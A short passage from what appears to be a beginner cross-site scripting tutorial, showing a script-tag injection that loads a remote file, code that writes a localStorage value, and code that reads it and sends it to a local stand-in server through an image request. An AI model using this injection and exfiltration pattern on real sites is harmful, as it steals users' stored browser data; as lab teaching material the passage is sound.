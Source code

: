 Injection:
```
<script src=http://127.0.0.1/setLocalStorageItem.js></script>
```
<br>
setLocalStorageItem.js>
```
window.localStorage.setItem('user', 'test');
```
<br>
![](/img/XSSBasic/setLocalStorage.PNG)

It worked, we set a local storage item. Now let's retrieve the value.
<br>
getLocalStorageItem.js:
```
var data = window.localStorage.getItem('user');
var i=new Image;
i.src="http://127.0.0.1/?"+data;
```
<br>